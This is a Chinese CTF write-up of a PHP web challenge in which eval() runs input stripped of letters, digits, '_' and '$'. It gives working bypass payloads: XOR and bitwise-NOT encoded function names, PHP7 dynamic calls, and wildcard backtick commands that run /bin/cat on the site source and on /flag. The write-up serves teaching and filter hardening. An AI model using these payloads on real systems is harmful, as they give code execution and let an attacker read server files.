 ```yaml
---
title: CTF一道web题小结-无数字字母getFlag()
date: 2018-10-11 10:42:01
tags:
  - web
  - flag
categories: CTF
---
```


## 0x01 前言
最近遇到个CTF题目，分析后涨了波知识，题目如下：
```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```
<!--more-->
分析代码，了解到我们需要满足两个条件：
1. 长度不能大于35
2. 不能存在数字字母_和$符号

## 0x02 无数字字母构造payload
首先，看到不能存在字母数字就想到了phithon师傅的文章里关于无字母数字webshell提到的3种方法提供了两种思路：
1. 利用位运算
2. 利用自增运算符
想到payload应该是code=getFlag(),于是开始构造getFlag()。
在网上找到一个payload如下：
```
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```
分析：
```
采用异或运算
{ ^ %1c = g
{ ^ %1e = e
{ ^ %0f = t
{ ^ %3d = F
{ ^ %17 = l
{ ^ %1a = a
所以"{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c" = getFlag
$_=getFlag将_赋值为getFlag，最终得到getFlag()。
```
还有个payload为
```
?code=$_=~%98%9A%8B%B9%93%9E%98;$_();
```
直接取反getFlag再url编码。
其中_可以使用汉字代替，如
```
$啊=~%98%9A%8B%B9%93%9E%98;$啊();
```
当不过滤<strong>$</strong>符号时,可以这样操作，但是<strong>$</strong>符号过滤了，参考p牛的《无字母数字webshell之提高篇》中讲到PHP7是允许使用($a)()来执行动态函数;
此时，测试使用phpinfo();payload如下：
```
(~%8F%97%8F%96%91%99%90)();
```
使用php5进行测试时如下：
![](2018-10-11-CTF一道web题小结-无数字字母getFlag\php5测试phpinfo.PNG)

获取phpinfo信息失败。

使用php7进行测试时如下：
![](2018-10-11-CTF一道web题小结-无数字字母getFlag\php7测试phpinfo.PNG)

获取phpinfo信息成功。

## 0x03 解题思路
利用通配符调用Linux系统命令 来查看flag。
在Linux系统中可以使用? * 等字符来正则匹配字母：
* *可以代替0个及以上任意字符
* ?可以代表1个任意字符

可以使用?来代替字符：
```
/???/??? => /bin/cat
```
用此来读取源码
```
$_=`/???/???%20/???/???/????/?????.???`;?><?=$_?>
"/bin/cat /var/www/html/index.php"
```
为保持长度小于35且不存在$_,则将$_带入后面一个表达式，同时使用*来匹配最后文件
```
?><?=`/???/???%20/???/???/????/*`?>
```
php使用短链接，其含义如下
```
<?php echo `/bin/cat /var/www/html/index.php`?>
```
读取到源码发现存在如下函数：
```
function getFlag(){
	$flag = file_get_contents('/flag');
	echo $flag;
}
```
最后直接读取flag文件。
```
?><?=`/???/???%20/????`;?>
```

## 0x04 其它思考
windows中将if(preg_match("/[A-Za-z0-9_$]+/",$code))过滤修改，去除对大写字母或小写的过滤，由于windows对大小写不敏感，可以在windows系统中尝试执行任意代码
![](2018-10-11-CTF一道web题小结-无数字字母getFlag\windows执行任意代码.PNG)

不对if(preg_match("/[A-Za-z0-9_$]+/",$code))进行修改，将whoami进行取反再url编码：
```
~%88%97%90%9E%92%96
```
则失败。
![](2018-10-11-CTF一道web题小结-无数字字母getFlag\windows绕过失败.PNG)

去除[A-Za-z0-9_$]同样也无法执行代码，可见在windows中对命令进行位运算后会执行失败。

## 0x05 参考
[[红日安全]PHP-Audit-Labs题解之Day5-8](https://xz.aliyun.com/t/2597#toc-8)
[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
[CTF题目思考--极限利用](https://www.anquanke.com/post/id/154284)
